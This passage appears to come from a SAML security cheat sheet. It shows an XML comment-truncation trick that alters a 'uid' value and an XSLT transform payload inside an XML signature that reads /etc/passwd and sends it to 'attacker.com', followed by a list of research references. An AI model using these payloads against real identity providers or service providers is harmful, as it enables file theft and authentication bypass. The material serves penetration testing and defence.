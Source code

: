 ```xml
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

The SAML response is accepted by the service provider. Due to the vulnerability, the service provider application reports "taf" as the value of the "uid" attribute.


### Extensible Stylesheet Language Transformation

An XSLT can be carried out by using the `transform` element.

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)    
Picture from [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)    

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```


## References

- [Attacking SSO: Common SAML Vulnerabilities and Ways to Find Them - Jem Jensen - March 7, 2017](https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/)
- [How to Hunt Bugs in SAML; a Methodology - Part I - Ben Risher (@epi052) - March 7, 2019](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
- [How to Hunt Bugs in SAML; a Methodology - Part II - Ben Risher (@epi052) - March 13, 2019](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
- [How to Hunt Bugs in SAML; a Methodology - Part III - Ben Risher (@epi052) - March 16, 2019](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)
- [On Breaking SAML: Be Whoever You Want to Be - Juraj Somorovsky, Andreas Mayer, Jorg Schwenk, Marco Kampmann, and Meiko Jensen - August 23, 2012](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91-8-23-12.pdf)
- [Oracle Weblogic - Multiple SAML Vulnerabilities (CVE-2018-2998/CVE-2018-2933) - Denis Andzakovic - July 18, 2018](https://pulsesecurity.co.nz/advisories/WebLogic-SAML-Vulnerabilities)
- [SAML Burp Extension - Roland Bischofberger - July 24, 2015](https://blog.compass-security.com/2015/07/saml-burp-extension/)
- [SAML Security Cheat Sheet - OWASP - February 2, 2019](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SAML_Security_Cheat_Sheet.md)
- [The road to your codebase is paved with forged assertions - Ioannis Kakavas (@ilektrojohn) - March 13, 2017](http://www.economyofmechanism.com/github-saml)
- [Truncation of SAML Attributes in Shibboleth 2 - redteam-pentesting.de - January 15, 2018](https://www.redteam-pentesting.de/de/advisories/rt-sa-2017-013/-truncation-of-saml-attributes-in-shibboleth-2)